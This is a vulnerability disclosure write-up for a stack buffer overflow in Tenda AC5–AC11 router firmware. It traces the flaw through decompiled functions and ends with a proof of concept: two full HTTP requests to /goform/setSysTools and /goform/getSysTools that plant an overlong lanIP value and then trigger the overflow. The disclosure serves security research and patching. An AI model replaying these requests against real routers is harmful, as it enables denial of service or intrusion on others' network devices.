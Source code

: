 # Tenda Router Vulnerability

This vulnerability exists in  module `deviceStatistics` of  `/goform/setSysTools`  and affects multiple devices of the Tenda Router. Equipment models include AC5, AC6, AC7, AC8, AC10, AC11. It affects several firmware versions, including the latest version number published on the official website. And it is RTOS system.

[https://www.tenda.com.cn/searchdown/AC.html](https://www.tenda.com.cn/searchdown/AC.html)

## Vulnerability description

（The pseudocode for the example is the last version of AC6）

There is a stack buffer overflow vulnerability in the `sub_8007E298` function.(page  /goform/getSysTools in module deviceStatistics)

![pic/Untitled.png](pic/Untitled.png)
![pic/Untitled1.png](pic/Untitled1.png)


In this function, it will use `nvram_get("lan_ipaddr");` to get an NVRAM variable, which is then placed in a `V7` variable. After that ,it will use `Strcpy (v30, v7);` to put V7 on V30 without any security check.

The  `lan_ipaddr`  NVRAM variable can be controlled in the `sub_8007DB28` function.

![pic/Untitled2.png](pic/Untitled2.png)

You can see that it's assigned by `lanIP_buf`.
![pic/Untitled3.png](pic/Untitled3.png)


Initially `lanIP_buf` is what we inputed, so the `lanIP_buf` NVRAM variable becomes manageable.
![pic/Untitled4.png](pic/Untitled4.png)


If `strcmp(v47,lanip_buf)` does not return a value of 0 and `sub_80086470` returns a value of 0, then the NVRAM variable `lan_ipaddr` will be set to the `lanip_buf` we inputed.

The `lanip_buf` is the input vector, while v47 is a fixed string, so it is easy to make them different so that the `strcmp` function does not return zero.

![pic/Untitled5.png](pic/Untitled5.png)

In function `sub_80086470`  ,if we want it returns zero, we must make `strlen(a1)` is bigger than 7, it's easy to make.And the return value of function `sub_801B8EA4` must be zero.

In function `sub_801B8EA4` , it will do IP legitimacy check .  But it will not check the length. 

Experimentally,  we can get a very long string like 192.168.1.0000000000000000000000000000000000000000000000000000000000000001 to pass the check .And after the check, function `sub_801B8EA4` will give v4 a 4-bytes ip address . If a1 can pass the check, v2 will be zero, but a1 will not get changed and will be set in nvram variable `lan_ipaddr`. So we can make `lan_ipaddr` variable in nvram is a very long string.

Thus, by first setting the `lan_ipaddr` on the page `/goform/setSysTools` and then requesting the page `/goform/getSysTools`, an attacker can easily perform a denial-of-service attack or remote code execution using crafted overflow data.

## POC

```
POST /goform/setSysTools HTTP/1.1
Host: 192.168.0.1
Content-Length: 500
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.66 Safari/537.36
Content-Type: application/x-www-form-urlencoded;
Accept: */*
Origin: http://192.168.0.1
Referer: http://192.168.0.1/index.html
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

module1=lanCfg&lanIP=192.168.0.00000000000000000000000000000000000000000000000000000000000000000000001&lanMask=255.255.255.0&dhcpEn=true&lanDhcpStartIP=192.168.0.100&lanDhcpEndIP=192.168.0.200&lanDns1=192.168.0.1&lanDns2=
```

```
GET /goform/getSysTools?random=0.7312766635668926&modules=deviceStatistics,lanCfg HTTP/1.1
Host: 192.168.0.1
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.66 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```

### Verify

Vulnerability demo

![pic/Untitled6.png](pic/Untitled6.png)

![pic/Untitled7.png](pic/Untitled7.png)

You can ensure that the module is indeed `deviceStatistics`, where the vulnerability will be triggered.

 If the number of characters were longer, it would be enough to overflow.